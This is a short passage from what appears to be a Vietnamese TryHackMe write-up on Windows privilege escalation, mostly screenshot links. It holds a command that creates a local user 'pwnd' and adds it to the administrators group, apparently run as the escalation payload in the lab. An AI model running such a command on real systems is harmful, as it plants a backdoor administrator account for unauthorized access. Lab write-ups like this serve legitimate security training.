     net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image236.png?raw=true)

=> Chạy code: 

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Jr_Penetration_Tester/Privilege-Escalation/images/image237.png?raw=true)
